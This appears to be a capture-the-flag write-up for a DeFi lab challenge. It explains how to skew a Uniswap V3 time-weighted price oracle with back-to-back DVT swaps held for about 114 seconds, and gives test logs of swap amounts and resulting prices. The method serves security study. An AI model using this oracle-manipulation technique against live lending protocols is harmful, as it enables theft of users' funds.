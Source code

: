 # Solution

* Challenge uses [Uniswap V3](https://docs.uniswap.org/contracts/v3/overview) as a price oracle.

* [Uniswap V3 contract addresses](https://docs.uniswap.org/contracts/v3/reference/deployments/ethereum-deployments)

* [Uniswap core contracts](https://github.com/Uniswap/v3-core).

* [IUniswapV3PoolActions](https://github.com/Uniswap/v3-core/blob/main/contracts/interfaces/pool/IUniswapV3PoolActions.sol)

* The `PuppetV3Pool` contract exposes a sigle external function `borrow`.

* `borrow` swaps tokens for WETH. There is no borrowing going on since its really just a swap.

* `borrow` uses UniswapV3 _arithmetic mean_ to determine the price in WETH for selling DVT tokens. It asks for the _arithmetic mean_ over the last 10 minutes and obtains a quote in WETH multiplied by 3.

* The CTF requires us to manipulate the price quoted by Uniswap. The solution is fairly obvious. The challenge is mostly about understanding how to influnce the quoted price by performing swaps.

* We determined this through experimentation. A better approach would have been to find the exact formula applied.

* From the tests we saw how the _arithmetic mean_ factors in: <BR />
    - The price based on how much it owns of each token<BR />
    - The length of time over which this price was true.

* Basically we need to increase the amount of DVTs owned by the Uniswap pair such that to lower the price quoted in WETH. But on top of that we must retain this favorable price point for long enough. The longer we keep the price point the greater its _wieght_ when computing the _arithmetic mean_.

* We can just make one swap however. The pool for the DVT:WETH pair was just created and we start the test
without any swaps effected agains the pair. We rather have to make a small swap and a large swap and
retain the imbalance caused by the large swap for a long enough time.

* The following is a set of test results from which we concluded that: <BR />
    - The small swap had to be at least of 0.7 DVT.
    - The small and large swap can be performed back to back (without any wait in between).
    - The large swap had to be the latest for around 114 seconds

```
Time 0:00 | Swap 1000000000000000000 DVT -> WETH
Time 0:33 (33)
Time 0:33 | 1 Token :       3000000000000000000 Wei
Time 0:33 | Swap 100000000000000000000 DVT -> WETH
Time 0:33 | 1 Token :       3000000000000000000 Wei
Time 1:04 (64)
Time 1:04 | 1 Token :         35526871999426662 Wei
Time 1:34 (94)
Time 1:34 | 1 Token :           420677476940187 Wei
Time 2:04 (124)
Time 2:04 | 1 Token :             4981784958765 Wei
Time 2:04 | 1000000000000000000000000 DVT :
                  4981784958765275184 Wei
                   123456789012345678

Time 0:00 | Swap 1000000000000000000 DVT -> WETH
Time 0:23 (23)
Time 0:23 | 1 Token :       3000000000000000000 Wei
Time 0:23 | Swap 100000000000000000000 DVT -> WETH
Time 0:23 | 1 Token :       3000000000000000000 Wei
Time 0:54 (54)
Time 0:54 | 1 Token :         35526871999426662 Wei
Time 1:24 (84)
Time 1:24 | 1 Token :           420677476940187 Wei
Time 1:54 (114)
Time 1:54 | 1 Token :             4981784958765 Wei
Time 1:54 | 1000000000000000000000000 DVT :
                  4981784958765275184 Wei
                   123456789012345678

Time 0:00 | Swap 1000000000000000000 DVT -> WETH
Time 0:00 | 1 Token :       3000000000000000000 Wei
Time 0:00 | Swap 100000000000000000000 DVT -> WETH
Time 0:00 | 1 Token :       3000000000000000000 Wei
Time 0:35 (35)
Time 0:35 | 1 Token :         30642770517398736 Wei
Time 1:05 (65)
Time 1:05 | 1 Token :           362880595293141 Wei
Time 1:35 (95)
Time 1:35 | 1 Token :             4296907795905 Wei
Time 1:35 | 1000000000000000000000000 DVT :
                  4296907795905494574 Wei
                   123456789012345678

Time 0:00 | Swap 2000000000000000000 DVT -> WETH
Time 0:00 | 1 Token :       3000000000000000000 Wei
Time 0:00 | Swap 100000000000000000000 DVT -> WETH
Time 0:00 | 1 Token :       3000000000000000000 Wei
Time 0:35 (35)
Time 0:35 | 1 Token :         30642770517398736 Wei
Time 1:05 (65)
Time 1:05 | 1 Token :           362880595293141 Wei
Time 1:35 (95)
Time 1:35 | 1 Token :             4296907795905 Wei
Time 1:35 | 1000000000000000000000000 DVT :
                  4296907795905494574 Wei
                   123456789012345678

Time 0:00 | Swap 900000000000000000 DVT -> WETH
Time 0:00 | 1 Token :       3000000000000000000 Wei
Time 0:00 | Swap 100000000000000000000 DVT -> WETH
Time 0:00 | 1 Token :       3000000000000000000 Wei
Time 0:34 (34)
Time 0:34 | 1 Token :         35526871999426662 Wei
Time 1:04 (64)
Time 1:04 | 1 Token :           420677476940187 Wei
Time 1:35 (95)
Time 1:35 | 1 Token :             4296907795905 Wei
Time 1:35 | 1000000000000000000000000 DVT :
                  4296907795905494574 Wei
                   123456789012345678


Time 0:00 | Swap 700000000000000000 DVT -> WETH
Time 0:00 | 1 Token :       3000000000000000000 Wei
Time 0:00 | Swap 100000000000000000000 DVT -> WETH
Time 0:00 | 1 Token :       3000000000000000000 Wei
Time 0:35 (35)
Time 0:35 | 1 Token :         30642770517398736 Wei
Time 1:05 (65)
Time 1:05 | 1 Token :           362880595293141 Wei
Time 1:35 (95)
Time 1:35 | 1 Token :             4296907795905 Wei
Time 1:35 | 1000000000000000000000000 DVT :
                  4296907795905494574 Wei
                   123456789012345678


Time 0:00 | Swap 600000000000000000 DVT -> WETH
Time 0:00 | 1 Token :       3000000000000000000 Wei
Time 0:00 | Swap 100000000000000000000 DVT -> WETH
Time 0:00 | 1 Token :       3000000000000000000 Wei
Time 0:34 (34)
Time 0:34 | 1 Token :       2999400089988001497 Wei
Time 1:04 (64)
Time 1:04 | 1 Token :       2998500449895020994 Wei
Time 1:35 (95)
Time 1:35 | 1 Token :       2997601079640098976 Wei
Time 1:35 | 1000000000000000000000000 DVT :
            2997601079640098976245145 Wei
                   123456789012345678

Time 0:00 | Swap 1000000000000000000 DVT -> WETH
Time 0:00 | 1 Token :       3000000000000000000 Wei
Time 0:00 | Swap 109000000000000000000 DVT -> WETH
Time 0:00 | 1 Token :       3000000000000000000 Wei
Time 0:34 (34)
Time 0:34 | 1 Token :         35526871999426662 Wei
Time 1:04 (64)
Time 1:04 | 1 Token :           420677476940187 Wei
Time 1:34 (94)
Time 1:34 | 1 Token :             4981784958765 Wei
Time 1:54 (114)
Time 1:54 | 1 Token :              258809275239 Wei
Time 1:54 | 1000000000000000000000000 DVT :
                   258809275239840624 Wei
                   123456789012345678
                  1000000000000000000 = 1 ETH
```

